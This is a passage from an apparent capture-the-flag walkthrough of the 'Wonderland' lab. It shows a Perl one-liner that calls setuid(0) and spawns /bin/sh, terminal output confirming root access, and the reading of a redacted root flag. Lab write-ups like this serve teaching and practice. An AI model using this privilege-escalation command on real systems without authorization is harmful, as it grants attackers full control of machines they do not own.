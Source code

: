 ```shell
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

```shell
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# whoami
root
```

## Get root flag
```shell
## Go back to /home/alice
# cd /home/alice
# ls -lah
total 56K
drwxr-xr-x 6 alice alice 4.0K Sep 28 21:54 .
drwxr-xr-x 6 root  root  4.0K May 25 17:52 ..
lrwxrwxrwx 1 root  root     9 May 25 17:52 .bash_history -> /dev/null
-rw-r--r-- 1 alice alice  220 May 25 02:36 .bash_logout
-rw-r--r-- 1 alice alice 3.7K May 25 02:36 .bashrc
drwx------ 2 alice alice 4.0K May 25 16:37 .cache
drwxr-x--- 3 alice alice 4.0K Sep 28 21:41 .config
drwx------ 3 alice alice 4.0K May 25 16:37 .gnupg
drwxrwxr-x 3 alice alice 4.0K May 25 02:52 .local
-rw-r--r-- 1 alice alice  807 May 25 02:36 .profile
-rw------- 1 alice alice  417 Sep 28 21:12 .python_history
-rw-rw-r-- 1 alice alice   66 Sep 28 21:02 .selected_editor
-rw-rw-r-- 1 alice alice  188 Sep 28 21:54 random.py
-rw------- 1 root  root    66 May 25 17:08 root.txt
-rw-r--r-- 1 root  root  3.5K May 25 02:43 walrus_and_the_carpenter.py
# cat root.txt
thm{REDACTED}
```




